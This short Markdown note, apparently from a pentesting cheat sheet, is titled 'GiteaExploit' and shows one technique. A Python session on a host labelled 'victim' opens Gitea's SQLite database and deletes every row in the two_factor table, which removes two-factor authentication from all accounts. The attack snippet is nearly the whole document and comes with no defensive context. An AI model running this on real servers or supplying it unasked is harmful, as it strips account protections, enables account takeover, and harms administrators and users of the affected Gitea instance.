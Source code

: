 ```yaml
---
title: GiteaExploit
desc: Exploit Gitea.
tags: [Linux]
alts: []
website:
---
```


## Delete Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```